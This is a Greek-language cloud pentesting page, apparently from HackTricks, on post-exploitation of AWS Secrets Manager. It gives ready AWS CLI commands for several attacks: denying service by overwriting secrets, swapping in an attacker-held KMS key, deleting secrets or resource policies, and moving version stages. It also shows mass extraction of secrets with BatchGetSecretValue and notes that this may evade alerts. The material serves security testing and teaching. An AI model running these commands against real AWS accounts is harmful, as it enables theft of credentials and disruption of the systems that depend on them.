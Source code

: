 # AWS - Secrets Manager Post Exploitation

{{#include ../../../../banners/hacktricks-training.md}}

## Secrets Manager

Για περισσότερες πληροφορίες δείτε:

{{#ref}}
../../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### Ανάγνωση Secrets

Τα **secrets καθαυτά είναι ευαίσθητες πληροφορίες**, [ελέγξτε τη σελίδα privesc](../../aws-privilege-escalation/aws-secrets-manager-privesc/README.md) για να μάθετε πώς να τα διαβάσετε.

### DoS Change Secret Value

Αλλάζοντας την τιμή του secret μπορείτε να **DoS όλα τα συστήματα που εξαρτώνται από αυτήν την τιμή.**

> [!WARNING]
> Σημειώστε ότι οι προηγούμενες τιμές αποθηκεύονται επίσης, οπότε είναι εύκολο να επιστρέψετε στην προηγούμενη τιμή.
```bash
# Requires permission secretsmanager:PutSecretValue
aws secretsmanager put-secret-value \
--secret-id MyTestSecret \
--secret-string "{\"user\":\"diegor\",\"password\":\"EXAMPLE-PASSWORD\"}"
```
### DoS Change KMS key

Εάν ο επιτιθέμενος έχει την άδεια secretsmanager:UpdateSecret, μπορεί να ρυθμίσει το secret ώστε να χρησιμοποιεί ένα KMS key που ανήκει στον ίδιο. Το κλειδί αυτό αρχικά είναι διαμορφωμένο έτσι ώστε ο καθένας να μπορεί να το προσπελάσει και να το χρησιμοποιήσει, οπότε η ενημέρωση του secret με το νέο κλειδί είναι δυνατή. Αν το κλειδί δεν ήταν προσβάσιμο, το secret δεν θα μπορούσε να ενημερωθεί.

Μετά την αλλαγή του κλειδιού για το secret, ο επιτιθέμενος τροποποιεί τη διαμόρφωση του κλειδιού του ώστε μόνο αυτός να μπορεί να το προσπελάσει. Έτσι, στις επόμενες εκδόσεις του secret, αυτές θα κρυπτογραφούνται με το νέο κλειδί, και αφού δεν υπάρχει πρόσβαση σε αυτό, η δυνατότητα ανάκτησης του secret θα χαθεί.

Είναι σημαντικό να σημειωθεί ότι αυτή η μη προσβασιμότητα θα συμβεί μόνο στις μεταγενέστερες εκδόσεις, μετά την αλλαγή του περιεχομένου του secret, αφού η τρέχουσα έκδοση εξακολουθεί να είναι κρυπτογραφημένη με το αρχικό KMS key.
```bash
aws secretsmanager update-secret \
--secret-id MyTestSecret \
--kms-key-id arn:aws:kms:us-west-2:123456789012:key/EXAMPLE1-90ab-cdef-fedc-ba987EXAMPLE
```
### DoS Διαγραφή Secret

Ο ελάχιστος αριθμός ημερών για να διαγραφεί ένα secret είναι 7
```bash
aws secretsmanager delete-secret \
--secret-id MyTestSecret \
--recovery-window-in-days 7
```
## secretsmanager:RestoreSecret

Είναι δυνατή η επαναφορά ενός μυστικού, κάτι που επιτρέπει την ανάκτηση μυστικών που έχουν προγραμματιστεί για διαγραφή, καθώς η ελάχιστη περίοδος διαγραφής για μυστικά είναι 7 ημέρες και η μέγιστη 30 ημέρες. Σε συνδυασμό με το δικαίωμα secretsmanager:GetSecretValue, αυτό καθιστά δυνατή την ανάκτηση του περιεχομένου τους.

Για να ανακτήσετε ένα μυστικό που βρίσκεται σε διαδικασία διαγραφής, μπορείτε να χρησιμοποιήσετε την ακόλουθη εντολή:
```bash
aws secretsmanager restore-secret \
--secret-id <Secret_Name>
```
## secretsmanager:DeleteResourcePolicy

Αυτή η ενέργεια επιτρέπει τη διαγραφή της resource policy που ελέγχει ποιος μπορεί να έχει πρόσβαση σε ένα secret. Αυτό μπορεί να οδηγήσει σε DoS αν η resource policy είχε ρυθμιστεί ώστε να επιτρέπει πρόσβαση σε ένα συγκεκριμένο σύνολο χρηστών.

Για να διαγράψετε τη resource policy:
```bash
aws secretsmanager delete-resource-policy \
--secret-id <Secret_Name>
```
## secretsmanager:UpdateSecretVersionStage

Οι καταστάσεις ενός μυστικού χρησιμοποιούνται για τη διαχείριση των εκδόσεων ενός μυστικού. Το AWSCURRENT σηματοδοτεί την ενεργή έκδοση που χρησιμοποιούν οι εφαρμογές, το AWSPREVIOUS διατηρεί την προηγούμενη έκδοση ώστε να μπορείτε να επαναφέρετε αν χρειαστεί, και το AWSPENDING χρησιμοποιείται στη διαδικασία περιστροφής για να προετοιμάσει και να επικυρώσει μια νέα έκδοση πριν την ορίσει ως τρέχουσα.

Οι εφαρμογές διαβάζουν πάντα την έκδοση με AWSCURRENT. Εάν κάποιος μετακινήσει αυτή την ετικέτα στη λάθος έκδοση, οι εφαρμογές θα χρησιμοποιήσουν άκυρα credentials και μπορεί να αποτύχουν.

Το AWSPREVIOUS δεν χρησιμοποιείται αυτόματα. Ωστόσο, αν το AWSCURRENT αφαιρεθεί ή ανατεθεί λανθασμένα, μπορεί να φαίνεται ότι όλα εξακολουθούν να λειτουργούν με την προηγούμενη έκδοση.
```bash
aws secretsmanager update-secret-version-stage \
--secret-id <your-secret-name-or-arn> \
--version-stage AWSCURRENT \
--move-to-version-id <target-version-id> \
--remove-from-version-id <previous-version-id>
```
{{#include ../../../../banners/hacktricks-training.md}}





### Mass Secret Exfiltration via BatchGetSecretValue (up to 20 per call)

Καταχραστείτε το Secrets Manager BatchGetSecretValue API για να ανακτήσετε έως και 20 μυστικά σε ένα αίτημα. Αυτό μπορεί να μειώσει δραστικά τον όγκο κλήσεων API σε σύγκριση με την εκτέλεση GetSecretValue για κάθε μυστικό. Αν χρησιμοποιούνται φίλτρα (tags/name), απαιτείται επίσης η άδεια ListSecrets. Το CloudTrail εξακολουθεί να καταγράφει ένα γεγονός GetSecretValue για κάθε μυστικό που ανακτάται σε παρτίδα.

Απαιτούμενα δικαιώματα
- secretsmanager:BatchGetSecretValue
- secretsmanager:GetSecretValue για κάθε στοχευμένο μυστικό
- secretsmanager:ListSecrets αν χρησιμοποιείτε --filters
- kms:Decrypt στα CMKs που χρησιμοποιούνται από τα μυστικά (αν δεν χρησιμοποιείτε aws/secretsmanager)

> [!WARNING]
> Λάβετε υπόψη ότι η άδεια `secretsmanager:BatchGetSecretValue` από μόνη της δεν αρκεί για την ανάκτηση μυστικών — χρειάζεστε επίσης την `secretsmanager:GetSecretValue` για κάθε μυστικό που θέλετε να ανακτήσετε.

Exfiltrate by explicit list
```bash
aws secretsmanager batch-get-secret-value \
--secret-id-list <secret1> <secret2> <secret3> \
--query 'SecretValues[].{Name:Name,Version:VersionId,Val:SecretString}'
```
Exfiltrate με φίλτρα (tag key/value or name prefix)
```bash
# By tag key
aws secretsmanager batch-get-secret-value \
--filters Key=tag-key,Values=env \
--max-results 20 \
--query 'SecretValues[].{Name:Name,Val:SecretString}'

# By tag value
aws secretsmanager batch-get-secret-value \
--filters Key=tag-value,Values=prod \
--max-results 20

# By name prefix
aws secretsmanager batch-get-secret-value \
--filters Key=name,Values=MyApp
```
Διαχείριση μερικών αποτυχιών
```bash
# Inspect the Errors list for AccessDenied/NotFound and retry/adjust filters
aws secretsmanager batch-get-secret-value --secret-id-list <id1> <id2> <id3>
```
Επιπτώσεις
- Γρήγορη “smash-and-grab” πολλών secrets με λιγότερες API κλήσεις, ενδεχομένως παρακάμπτοντας ειδοποιήσεις ρυθμισμένες για αιχμές του GetSecretValue.
- Τα CloudTrail logs εξακολουθούν να περιλαμβάνουν ένα GetSecretValue event ανά secret που ανακτάται από την παρτίδα.
